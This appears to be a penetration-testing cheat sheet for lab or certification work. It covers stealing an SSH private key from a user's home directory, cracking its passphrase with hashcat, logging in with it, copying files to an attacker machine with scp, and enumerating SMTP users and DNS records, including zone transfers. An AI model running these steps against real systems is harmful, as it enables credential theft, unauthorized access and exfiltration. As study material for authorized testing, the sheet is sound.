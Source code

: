### ID_RSA looting SSH key 

```shell
Where the SSH private key can be found
/home/alfred/.ssh/id_rsa

#make SURE to check which account you are using 
chmod 600 id_rsa
#depending on the rule
hashcat -m 22921 ssh.hash /usr/share/wordlists/rockyou.txt
ssh -i id_rsa -p 2222 dave@192.168.50.201
```

### Looting from SSH 

```shell

scp /path/to/example.txt root@192.168.45.185:/home/kali/offsec/ #or try /tmp/

```

## SMTP/s - 25,465,587

```sh

# basic enumeration
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 192.168.

smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt  -t $ip

EXPN  # get mailing list
VRFY root  # check if you can use VRFY to enumerate users
```

## DNS - 53

**PRO TIP**: Make sure you add the DNS entries you discover to your
`/etc/hosts` file. Some web servers do redirection based on domain name!

**Format of `/etc/hosts` entry with multiple subdomains**:

```
10.10.10.10     victim.com mail.victim.com
```

**General Purpose Enumeration**:

```sh
# dnsenum does full recon, including attempting zone transfers and bruteforcing
# specify "--noreverse" to avoid reverse-IP lookups
dnsenum domain.tld

# can also use dnsrecon, but takes a little more work to specify full enumeration
dnsrecon -a -s -b -y -k -w -d domain.tld

# fierce does a more abbreviated full-enumeration (good for preliminary look)
fierce --domain domain.tld

# dig zone xfer, note "@" before nameserver
dig @ns1.domain.tld -t axfr domain.tld

# get DNS records by type (MX in this case)
host -t MX example.com
```
